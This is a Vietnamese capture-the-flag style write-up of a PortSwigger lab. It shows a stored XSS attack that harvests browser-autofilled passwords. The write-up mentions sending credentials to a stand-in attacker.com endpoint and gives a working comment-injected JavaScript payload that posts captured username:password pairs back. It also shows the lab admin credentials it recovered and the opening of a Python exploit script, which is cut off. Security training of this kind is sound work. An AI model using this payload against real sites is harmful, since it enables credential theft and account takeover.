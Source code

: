 - Với chức năng auto-fill password sẽ giúp kẻ tấn công thu thập username và password đã lưu của nạn nhân và gửi chúng tới `https://attacker.com/capture` bằng XMLHttpRequest(). Hậu quả của dạng tấn công này nếu thành công sẽ lớn hơn so với việc chỉ đánh cắp được cookie nạn nhân do kẻ tấn công có thể thực hiện việc giả mạo bất cứ lúc nào (trong trường hợp không có xác thực 2FA). Ngoài ra nạn nhân còn có thể bị đánh cắp tài khoản ở các nền tảng khác do người dùng thường lưu trữ các tài khoản khác nhau với chung một mật khẩu!

### Khai thác

- Như PortSwigger đã hướng dẫn, payload sẽ dựa vào việc tạo ra input giả để người dùng sử dụng password autofill để nhập vào, sau đó lấy giá trị của nó để gửi về

mình dùng payload này chuyền vào comment

```javascript
<input type="text" name="username"></input>
<input type="password" name="password" onchange="hax()"></input>
<script>
function hax(){
var token = document.getElementsByName('csrf')[0].value;
var username = document.getElementsByName('username')[0].value;
var password = document.getElementsByName('password')[0].value;
var data = new FormData();

data.append('csrf', token);
data.append('postId', 8);
data.append('comment', `${username}:${password}`);
data.append('name', 'cuong');
data.append('email', 'a@a.a')
data.append('website', 'http://a.com')

fetch('/post/comment',{
  method: 'POST',
  mode: 'no-cors',
  body : data,
});
}
</script>
```

![image](https://hackmd.io/_uploads/SJXHwF_qa.png)

mình thấy có lab trả về tài khoản ==administrator:eqg22me7g5ihuvl4weft== trên comment

![image](https://hackmd.io/_uploads/r1lUPtu96.png)

đăng nhập với tài khoản này và mình đã solve được lab

mình đã viết lại script khai thác

```python
#!/usr/bin/python3.7
import requests
import re
from bs4 import BeautifulSoup
import urllib3
urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)
from urllib.parse import quote

url = 'https://0a8b005304448e7c800a0334006900ea.web-security-academy.net'

session = requests.Session()

response = session.get(
    url + "/post?postId=8",
    verify=False,
)
```